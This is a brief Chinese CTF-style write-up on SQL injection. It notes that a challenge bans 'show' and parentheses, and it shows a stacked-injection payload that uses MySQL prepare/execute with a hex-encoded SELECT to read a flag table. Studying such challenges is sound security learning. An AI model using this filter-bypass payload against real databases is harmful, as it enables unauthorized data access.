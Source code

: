 # 知识点
### 预处理
# 思路
show被禁了，所以我们使用预编译，因为(也被ban，用16进制来绕过
```bash
}';prepare h from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;execute h;--+
```
![image.png](./images/20231017_2352027766.png)
